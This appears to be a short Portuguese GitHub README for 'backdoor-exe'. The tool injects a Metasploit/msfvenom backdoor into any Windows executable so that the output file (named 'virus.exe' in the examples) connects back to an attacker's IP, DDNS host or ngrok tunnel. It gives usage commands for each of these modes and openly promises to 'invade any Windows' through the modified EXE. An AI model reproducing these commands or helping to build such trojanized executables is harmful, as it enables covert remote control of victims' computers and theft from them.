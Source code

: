 # backdoor-exe
Invada qualquer Windows usando um EXE modificado!

Necessário o Perl, MSF(console e venom), um EXE(qualquer) e porta aberta, é claro..

Para adcionar o Backdoor ao EXE use por exemplo:

root@ZBox:~/Desktop# ./backdoor-exe

Usage: backdoor-exe <exe> <ip/ddns> <port> <out>
  
Usage: backdoor-exe -n <exe> <ngrok_host> <ngrok_port> <fwdport> <out>

IP:

./backdoor-exe test.exe 192.168.1.143 9090 virus.exe

Host/DDNS:

./backdoor-exe test.exe fuckthisn0ip.ddns.net 9090 virus.exe

Ngrok:

./backdoor-exe -n test.exe xxxx.ngok.io xxxx 9090 virus.exe

Meu canal no YT: https://www.youtube.com/channel/UC_0YeOjcY-d_Tq0Kvcf4CKg
